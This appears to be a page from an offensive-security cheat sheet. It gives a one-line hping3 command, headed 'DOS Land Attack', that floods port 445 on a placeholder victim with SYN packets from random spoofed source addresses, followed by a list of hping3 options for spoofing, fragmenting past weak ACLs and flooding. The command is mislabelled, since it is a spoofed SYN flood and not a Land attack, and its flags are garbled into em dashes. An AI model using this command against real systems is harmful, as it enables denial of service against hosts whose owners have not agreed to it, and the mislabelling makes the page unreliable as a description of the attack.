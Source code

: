 <mark style="color:green;">**DOS Land Attack:**</mark>

```
hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 — flood — rand-source VICTIM_IP
```

#### <mark style="color:green;">useful hping3 options:</mark>

```
# MODE   default mode     TCP
  -0  --rawip      RAW IP mode
  -1  --icmp       ICMP mode
  -2  --udp        UDP mode
  -8  --scan       SCAN mode.
                   Example: hping --scan 1-30,70-90 -S www.target.host
  -9  --listen     listen mode
  -i  --interval  wait (uX for X microseconds, for example -i u1000)
  --fast      alias for -i u10000 (10 packets for second)
  --faster    alias for -i u1000 (100 packets for second)
  --flood	   sent packets as fast as possible. Don't show replies.
  -q  --quiet     quiet
  -I  --interface interface name (otherwise default routing interface)
  -V  --verbose   verbose mode
  -D  --debug     debugging info

# IP
  -a  --spoof      spoof source address
  --rand-dest      random destionation address mode. see the man.
  --rand-source    random source address mode. see the man.
  -t  --ttl        ttl (default 64)
  -N  --id         id (default random)
  -W  --winid      use win* id byte ordering
  -r  --rel        relativize id field          (to estimate host traffic)
  -f  --frag       split packets in more frag.  (may pass weak acl)
  -x  --morefrag   set more fragments flag
  -y  --dontfrag   set don't fragment flag
  -g  --fragoff    set the fragment offset
  -m  --mtu        set virtual mtu, implies --frag if packet size > mtu
  -o  --tos        type of service (default 0x00), try --tos help
  -G  --rroute     includes RECORD_ROUTE option and display the route buffer

# FLAGS
  -M  --setseq     set TCP sequence number
  -L  --setack     set TCP ack
  -F  --fin        set FIN flag
  -S  --syn        set SYN flag
  -R  --rst        set RST flag
  -P  --push       set PUSH flag
  -A  --ack        set ACK flag
  -U  --urg        set URG flag
  -X  --xmas       set X unused flag (0x40)
  -Y  --ymas       set Y unused flag (0x80)

# TCP/UDP OPTIONS
  -b  --badcksum   (try to) send packets with a bad IP checksum
  -O  --tcpoff     set fake tcp data offset     (instead of tcphdrlen / 4)
  -s  --baseport   base source port             (default random)
  -p  --destport   [+][+]<port> destination port(default 0) ctrl+z inc/dec
  -w  --win        winsize (default 64) 
  --tcp-timestamp  enable the TCP timestamp option to guess the HZ/uptime

# ICMP
  -C  --icmptype   icmp type (default echo request)
  -K  --icmpcode   icmp code (default 0)
```